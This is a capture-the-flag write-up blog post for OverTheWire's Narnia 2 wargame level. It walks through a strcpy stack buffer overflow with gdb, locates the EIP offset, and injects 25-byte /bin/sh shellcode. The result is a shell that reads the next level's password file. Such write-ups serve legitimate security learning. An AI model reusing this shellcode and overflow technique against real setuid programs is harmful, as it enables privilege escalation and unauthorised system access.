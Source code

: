 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 2 -> 3"
subtitle:   "Write-Up"
date:       2017-02-03 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
---
```


<h1>Introduction</h1>

<p>What about another challenge in reverse engineering? Anywhere, anytime! </p>

<h1>Challenge</h1>

<p>As always, let's start from viewing the source code.</p>

{% highlight c %}
int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}

{% endhighlight %}

<p>Okay, now let's run it. </p>

{% highlight text%}
narnia2@melinda:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@melinda:/narnia$ ./narnia2 ARGUMENT
ARGUMENTnarnia2@melinda:/narnia$
{% endhighlight %}

<p>As in the source code, we see that if argument is not passed, then usage instructions are printed, otherwise value of argument is printed on the next line. In addition, source code gives us information that char buf is 128 bytes in size. Let's try to trigger the segmentation fault. </p>

{% highlight text %}
ARGUMENTnarnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 140")
Illegal instruction
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 141")
Segmentation fault
{% endhighlight %}

<p>Hmm, that's interesting. After trying different amounts of A letters, I've noticed that by writing 140 of them, we will get <b>Illegal instruction</b> message, but 141 letters end up with our desired <b>Segmentation fault</b>. Maybe gdb will tell us something more? </p>

{% highlight text %}
narnia2@melinda:/narnia$ gdb ./narnia2
(gdb) break *main
Breakpoint 1 at 0x804845d
{% endhighlight %}

<p>Firstly let's investigate the illegal instruction option. </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 140")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 140")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGILL, Illegal instruction.
0xf7e3ca00 in __libc_start_main () from /lib32/libc.so.6
(gdb) c
Continuing.

Program terminated with signal SIGILL, Illegal instruction.
The program no longer exists.

{% endhighlight %}

<p>Unfortunately after doing some research I've found out that SIGILL won't help us much. What we have to try is to overwrite the <b>instruction pointer. </b></p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 144")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 144")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
{% endhighlight %}

<p>Luckily, adding only 3 more A's overwrote the pointer. But here comes another problem, what is its address? </p>
<p>We can try to find out by writing around B's at the end. Let's see. </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 138 + 'B' * 6")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 138 + 'B' * 6")

Breakpoint 1, 0x0804845d in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/200x $esp
0xffffd7f0:	0x00000000	0x00000000	0xb7000000	0x9449f175
0xffffd800:	0xb7857a44	0x6da4653e	0x69a15cf3	0x00363836
0xffffd810:	0x00000000	0x6d61672f	0x6e2f7365	0x696e7261
0xffffd820:	0x616e2f61	0x61696e72	0x41410032	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8b0:	0x41414141	0x42424242	0x58004242	0x535f4744
{% endhighlight %}

<p>Great! EIP address is 0xffffd8b3. Now we have to find a way to use shellcode from previous challenge. But firstly, let's find its length. </p>

{% highlight text %}
narnia2@melinda:/narnia$ python -c'print(len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"))'
25
{% endhighlight %}

<p>25 bytes. As our string have to be 144 bytes in length, I'll firstly write 112 bytes of A letters, then 25 bytes of our shellcode and then overwrite the EIP with memory address somewhere in the middle of A's. Let's try it out! </p>

{% highlight text %}
(gdb) run $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'B' * 4")
Starting program: /games/narnia/narnia2 $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'B' * 4")

(gdb) x/200x $esp
0xffffd7f0:	0x00000000	0x00000000	0x4d000000	0x2bdc9c96
0xffffd800:	0xd596f713	0x775b1954	0x6969a442	0x00363836
0xffffd810:	0x00000000	0x6d61672f	0x6e2f7365	0x696e7261
0xffffd820:	0x616e2f61	0x61696e72	0x41410032	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0xc0314141	0x2f2f6850
0xffffd8a0:	0x2f686873	0x896e6962	0x89c189e3	0xcd0bb0c2
0xffffd8b0:	0x40c03180	0x424280cd	0x58004242	0x535f4744
0xffffd8c0:	0x49535345	0x495f4e4f	0x30323d44	0x33323431
0xffffd8d0:	0x45485300	0x2f3d4c4c	0x2f6e6962	0x68736162
0xffffd8e0:	0x52455400	0x74783d4d	0x2d6d7265	0x63363532
0xffffd8f0:	0x726f6c6f	0x48535300	0x494c435f	0x3d544e45
0xffffd900:	0x362e3938	0x36312e34	0x3732312e	0x30333320
0xffffd910:	0x32203434	0x53530032	0x54545f48	0x642f3d59
0xffffd920:	0x702f7665	0x342f7374	0x434c0033	0x4c4c415f

{% endhighlight %}

<p>Great, we can see that even with the shellcode B's overwrote the EIP. Now let's try it with the actuall address - somewhere in the middle of the A letters. Maybe <b>0xffffd863</b>?</p>

{% highlight text %}
narnia2@melinda:/narnia$ ./narnia2 $(python -c "print 'A' * 112 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x63\xd8\xff\xff'")
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
{% endhighlight %}

<p>And we've got the password to the next level!</p>

<h1>Conclusion</h1>
<p>The challenge was awesome, but really time consuming. It was worth every minute as I learned a lot from trying out these different ways to finish this level. Thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>!</p>

<p>~ Stay safe!</p>
